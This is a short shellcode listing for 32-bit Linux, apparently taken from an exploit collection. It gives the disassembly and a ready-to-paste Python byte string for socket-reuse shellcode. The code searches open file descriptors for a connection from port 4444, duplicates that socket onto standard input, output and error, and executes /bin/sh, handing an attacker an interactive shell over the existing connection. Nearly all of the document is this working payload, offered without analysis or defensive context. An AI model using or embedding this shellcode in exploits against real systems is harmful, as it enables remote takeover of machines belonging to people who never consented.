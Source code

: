  Reuse Socket Shellcode <br />================================================================================<br /><br />A simple socket reuse for linux system. Three system calls, socket, dup2 and execve<br /><br /><br />0:  31 db                   xor    ebx,ebx<br />2:  53                      push   ebx<br />3:  89 e7                   mov    edi,esp<br />5:  6a 10                   push   0x10<br />7:  54                      push   esp<br />8:  57                      push   edi<br />9:  53                      push   ebx<br />a:  89 e1                   mov    ecx,esp<br />c:  b3 07                   mov    bl,0x7<br />e:  ff 01                   inc    DWORD PTR [ecx]<br />10: 6a 66                   push   0x66<br />12: 58                      pop    eax<br />13: cd 80                   int    0x80<br />15: 66 81 7f 02 11 5c       cmp    WORD PTR [edi+0x2],0x5c11<br />1b: 75 f1                   jne    0xe<br />1d: 5b                      pop    ebx<br />1e: 6a 02                   push   0x2<br />20: 59                      pop    ecx<br />21: b0 3f                   mov    al,0x3f<br />23: cd 80                   int    0x80<br />25: 49                      dec    ecx<br />26: 79 f9                   jns    0x21<br />28: 50                      push   eax<br />29: 68 2f 2f 73 68          push   0x68732f2f<br />2e: 68 2f 62 69 6e          push   0x6e69622f<br />33: 89 e3                   mov    ebx,esp<br />35: 50                      push   eax<br />36: 53                      push   ebx<br />37: 89 e1                   mov    ecx,esp<br />39: 99                      cdq<br />3a: b0 0b                   mov    al,0xb<br />3c: cd 80                   int    0x80<br /><br /><br /><br /><br />

 shellcode_socket_reuse = (<br />"\x31\xdb\x53\x89\xe7\x6a\x10\x54\x57\x53\x89\xe1\xb3\x07\xff"<br />"\x01\x6a\x66\x58\xcd\x80\x66\x81\x7f\x02\x11\x5c\x75\xf1\x5b"<br />"\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x50\x68\x2f\x2f\x73"<br />"\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b"<br />"\xcd\x80")<br /><br /><br /><br />